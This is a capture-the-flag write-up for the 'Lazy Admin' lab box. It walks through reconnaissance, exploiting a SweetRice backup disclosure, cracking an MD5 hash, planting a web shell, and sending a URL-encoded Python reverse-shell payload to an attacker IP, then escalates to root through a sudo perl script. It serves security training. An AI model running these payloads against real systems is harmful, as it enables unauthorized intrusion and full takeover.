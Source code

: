 ```yaml
---
cover: ../../.gitbook/assets/e13.jpeg
coverY: 0
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Lazy Admin

### Active information gathering

```bash
kali@attack> echo '10.10.65.219 lazy.thm' | sudo tee -a /etc/hosts
kali@attack> nmap -p- -T4 -oN nmap-all-ports lazy.thm
kali@attack> gobuster dir -u http://lazy.thm/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

<figure><img src="../../.gitbook/assets/e14.png" alt=""><figcaption></figcaption></figure>

* When you reach the path http://lazy.thm/content/ you can see it stands SweetRice web application.
* Try to find a vulnerability with searchsploit

```bash
kali@attack> searchsploit Sweet Rice
```

<figure><img src="../../.gitbook/assets/e15.png" alt=""><figcaption></figcaption></figure>

```bash
kali@attack> searchsploit -m 40718
kali@attack> cat 40718.txt
```

* You can see there are mysql backups hidden at http://lazy.thm/content/inc/mysql\_backup.

```bash
kali@attack> curl http://lazy.thm/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql -o backup.sql
```

* In the content of this file, there are some hiddent credentials injected in the database : `manager:42f749ade7f9e195bf475f37a44cafcb`.

<figure><img src="../../.gitbook/assets/e17.png" alt=""><figcaption></figcaption></figure>

### Exploitation

* You can brute-force this hash on a web site (MD5)

<figure><img src="../../.gitbook/assets/e18.png" alt=""><figcaption></figcaption></figure>

* Go to http://lazy.thm/content/as/ and enter credentials `manager:Password123`. You gain access to the dashboard.
* Add this piece of code then click on **Done** to save your content.

<figure><img src="../../.gitbook/assets/e19.png" alt=""><figcaption></figcaption></figure>

* Now, if you try to run http://lazy.thm/content/\_themes/default/cat.php?cmd=id it returns the `www-data` user ! Yeah, you just got a web shell ! :slightly\_smiling\_face:
* On the site [HackTricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/linux#python) there is a Python script you can run in place of the `id` command

```bash
kali@attack> nc -lnvp 1234
```

* Once you're listening, go to your brower and enter this url

```
http://lazy.thm/content/_themes/default/cat.php?cmd=export%20RHOST=%2210.8.150.147%22;export%20RPORT=1234;python3%20-c%20%27import%20sys,socket,os,pty;s=socket.socket();s.connect((os.getenv(%22RHOST%22),int(os.getenv(%22RPORT%22))));[os.dup2(s.fileno(),fd)%20for%20fd%20in%20(0,1,2)];pty.spawn(%22/bin/sh%22)%27
```

* You get the reverse shell on the target ! :white\_check\_mark:

### Post-exploitation

```bash
www-data@target> cat /home/itguy/user.txt
www-data@target> sudo -l
www-data@target> echo '/bin/bash' > /etc/copy.sh
www-data@target> sudo /usr/bin/perl /home/itguy/backup.pl
root@target> cat /root/root.txt
```

And you gain the `root` user ! :clown\_face:
